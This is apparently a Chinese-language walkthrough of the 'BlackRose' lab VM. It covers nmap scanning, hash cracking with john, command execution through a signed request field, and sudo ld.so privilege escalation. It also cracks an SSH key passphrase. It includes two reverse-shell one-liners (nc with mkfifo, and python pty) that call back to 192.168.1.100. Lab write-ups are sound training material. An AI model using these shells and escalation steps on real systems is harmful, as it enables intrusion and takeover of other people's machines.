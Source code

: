 > vmware打开改网卡名在netplan中，bash有问题 shift+/为 : , 按下''输入字母i，shift+小键盘7 输入 / , / 输入 .

## 靶机信息
- 级别:容易
- 固定IP:192.168.1.21

## Recon
### nmap
```shell
//IP:192.168.1.21

sudo nmap -sT -p- --min-rate 10000 192.168.1.21

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

## Web
![[Pasted image 20231016095110.png]]

![[Pasted image 20231016095714.png]]
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt hash //解出来是whoami，其实左边也有提示
```
![[Pasted image 20231016095819.png]]
```shell
//如果一段时间不输入命令会timeout，刷新一下再输入命令即可
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.100 1234 >/tmp/f
$2a$10$ktFRNUiptqhLPzdzOkGWce.KZqE5LV29499FmQoFAhdy7T/JDkjgS


$2a$10$KYsaFtbcW6E6S.sfK1PPoufflUc9XB.svS8YkJSi7dWxsGhiQ4IA6

export RHOST="192.168.1.100";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'

https://www.browserling.com/tools/bcrypt

```
![[Pasted image 20231016103339.png]]
修改value
signature和加密后的command要一致才能执行命令

## 提权

```shell
www-data@BlackRose:/home/delx$ sudo -l
User www-data may run the following commands on BlackRose:
    (delx : delx) NOPASSWD: /bin/ld.so


www-data@BlackRose:/home/delx$ sudo -u delx /bin/ld.so /bin/bash

delx目录中看到了ssh私钥，复制到kali中
ssh2john id_rsa_hash > rsa_hash
john --wordlist=/usr/share/wordlists/rockyou.txt rsa_hash
doggiedog        (id_rsa_hash) 
```

```shell
find / -type f -user delx 2>/dev/null //查找所有属于delx的文件
strings /usr/local/.../showPassword
```
![[Pasted image 20231016105354.png]]
![[Pasted image 20231016105622.png]]





